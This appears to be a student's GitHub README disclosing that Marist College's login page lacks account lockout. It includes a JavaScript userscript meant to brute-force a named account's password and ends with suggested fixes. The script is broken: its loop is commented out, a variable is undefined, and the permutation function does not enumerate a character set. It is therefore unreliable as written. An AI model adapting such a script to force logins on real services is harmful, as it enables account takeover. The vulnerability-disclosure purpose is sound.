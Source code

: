 # Marist Login Script

## Daniel Gisolfi

#### Disclamer

I have no intention of exploiting this script in any way to login to another user`s account. I will only be using this on my own marist account to test the possibility of someone using this method to steal user information and logins.

### Issue Description

When loging onto marist services, the user is presented with a log on page working at the help desk I noticed a way to exploit the lack of an account lock in order to force log into any account. The current setup for a marist account login is not secure, a key reason for this the limted set of possible passwords a user can have. A marist account must be 6-8 characters long and contain only lower case letters with no special characters. All together this reduces the possible passwords to be comprised of only 36 characters (lowercase letters and numbers 0-9). As a result I have been able to write a script to brute force its way into an account due to the lack of a account lock when more than a few login attempts fail.

**LoginScript.js**

```javascript
// ==UserScript==
if (window.location == 'https://login.marist.edu/cas/login') {
    if(!document.getElementById('password').value){
        //alert("Starting");
        //var charset = "abcdefghijklmnopqrstuvwxyz0123456789";
        // var string = "xyz";
        // permutations = permut(myname);
        // for (var permutation of permutations){
        //Place password attempt in password textbox
        username = "stdg1";
        document.getElementById('username').value = username;
        document.getElementById('password').value = permutations;
        //Press the submit button
        document.getElementsByName('submit').click();
        //}
    }
}

function permut(string) {
    if (string.length < 2) return string; //break condition
    var permutations = []; //array to hold permutations
    for (var i=0; i<string.length; i++) {
        var char = string[i];
        // Eliminate duplicates:
        if (string.indexOf(char) != i) // if char was used already
            continue;           // skip it this time
        var remainingString = string.slice(0,i) + string.slice(i+1,string.length);
        for (var subPermutation of permut(remainingString))
            permutations.push(char + subPermutation);
    }
    return permutations;
}
```



### Possible Solutions

1. Add a security measure to lock an account and require a password reset after x amount of login attempts
2. Increase the possible password character options to make a brute force method of cracking passwords far more difficult
3. Add a layer of detection to detect when a script is attempting to force its way into an account